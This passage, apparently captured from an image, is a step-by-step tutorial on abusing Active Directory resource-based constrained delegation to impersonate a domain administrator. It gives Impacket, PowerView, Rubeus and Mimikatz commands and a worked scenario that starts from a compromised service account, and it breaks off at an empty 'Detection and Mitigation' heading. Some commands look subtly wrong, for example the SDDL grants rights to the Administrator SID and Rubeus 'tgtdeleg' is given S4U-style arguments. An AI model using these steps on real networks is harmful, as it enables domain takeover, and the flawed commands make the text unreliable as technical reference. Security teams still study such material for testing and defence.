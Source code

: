 1. **Modify `msDS-AllowedToActOnBehalfOfOtherIdentity`:**
   - Using Impacket’s `setrbcd.py`:
   ```bash
   python3 setrbcd.py -dc-ip <DC_IP> -target-computer <target_computer> -sid <sid> <domain>/<user>:<password>
   ```

2. **Request a Service Ticket (TGS):**
   - Using Impacket’s `getST.py`:
   ```bash
   python3 getST.py -spn <SPN> -impersonate <target_user> -dc-ip <DC_IP> <domain>/<user>:<password>
   ```

3. **Use the Ticket:**
   - Export and use the ticket with Impacket tools:
   ```bash
   export KRB5CCNAME=<ticket.ccache>
   python3 impacket-psexec -k -no-pass <target_ip>
   ```

---

### **4. Example Attack Scenario**

**Scenario:**
- You have compromised a service account (e.g., `svc_account`) that has local admin privileges on a machine (e.g., `TARGET01`), and you want to escalate privileges to impersonate a domain admin (e.g., `Administrator`).

1. **Modify RBCD:**
   - Set `TARGET01` to allow `svc_account` to act on behalf of `Administrator`:
   ```powershell
   $SID = (Get-DomainUser -Identity Administrator).SID
   $SDDL = "O:SYG:SYD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$SID)"
   Set-DomainObject -Identity TARGET01 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDDL}
   ```

2. **Request TGS as `Administrator`:**
   - Use Rubeus to request a TGS for `cifs/TARGET01` as `Administrator`:
   ```powershell
   Rubeus.exe tgtdeleg /user:Administrator /rc4:<NTLM_hash> /domain:DOMAIN /sid:<domain_SID> /target:cifs/TARGET01
   ```

3. **Inject the Ticket and Access the Service:**
   - Inject the ticket using Mimikatz and access the service:
   ```powershell
   kerberos::ptt <TGS_ticket.kirbi>
   ```
   - Access the target:
   ```powershell
   Enter-PSSession -ComputerName TARGET01 -Credential DOMAIN\Administrator
   ```

---

### **5. Detection and Mitigation**
